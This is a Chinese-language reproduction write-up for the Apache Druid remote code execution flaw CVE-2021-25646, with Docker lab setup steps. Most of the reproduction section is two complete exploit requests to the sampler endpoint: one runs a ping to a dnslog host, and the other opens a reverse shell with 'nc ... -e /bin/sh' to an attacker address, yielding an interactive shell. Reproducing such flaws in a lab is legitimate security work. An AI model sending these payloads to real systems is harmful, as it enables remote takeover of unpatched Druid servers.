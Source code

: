 # Apache Druid 远程代码执行漏洞 CVE-2021-25646

## 漏洞描述

Apache Druid 是用Java编写的面向列的开源分布式数据存储，旨在快速获取大量事件数据，并在数据之上提供低延迟查询。
Apache Druid 默认情况下缺乏授权认证，攻击者可以发送特制请求，利用Druid服务器上进程的特权执行任意代码。
Apache Druid包括执行用户提供的JavaScript的功能嵌入在各种类型请求中的代码。此功能在用于高信任度环境中，默认已被禁用。但是，在Druid 0.20.0及更低版本中，经过身份验证的用户发送恶意请求，利用Apache Druid漏洞可以执行任意代码

## 漏洞影响

```
Apache Druid < 0.20.1
```

## 环境搭建

这里使用Docker来搭建环境

![524514a5-199b-4365-a193-1defa9017858](https://typora-1308934770.cos.ap-beijing.myqcloud.com/524514a5-199b-4365-a193-1defa9017858.png)



Docker下载链接: https://github.com/apache/druid/archive/druid-0.20.0.zip

下载之后进入目录 **distribution\docker**

执行命令编译 **docker-compose up -d**

![2](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090029557.png)

访问 http://xxx.xxx.xxx.xxx:8888 正常就行了

![3](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090029993.png)

## 漏洞复现

漏洞原理: https://mp.weixin.qq.com/s/McAoLfyf_tgFIfGTAoRCiw

POC请求包

```json
POST /druid/indexer/v1/sampler HTTP/1.1
Host: xxx.xxx.xxx.xxx:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Content-Length: 995
Connection: close


{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('ping xxxxx.dnslog.cn')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
```

![4](https://typora-1308934770.cos.ap-beijing.myqcloud.com/4.png)



- 注意请求中这个位置改为你的dnslog平台地址
- java.lang.Runtime.getRuntime().exec('ping -c 4 xxxxx.dnslog.cn')

发送请求即可命令执行

![5](https://typora-1308934770.cos.ap-beijing.myqcloud.com/5.png)





- 可能大部分都是docker搭建，而里面大部分命令是不存在的，但是发现docker里面居然默认是有 NC 命令的，那我们就可以用nc反弹一个shell了

反弹shell请求包

```json
POST /druid/indexer/v1/sampler HTTP/1.1
Host: xxx.xxx.xxx.xxx:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Content-Length: 1008
Connection: close


{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec(' nc xxx.xxx.xxx.xxx 9999 -e /bin/sh')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
```

发送请求包就可以得到一个交互式shell

![6](https://typora-1308934770.cos.ap-beijing.myqcloud.com/6.png)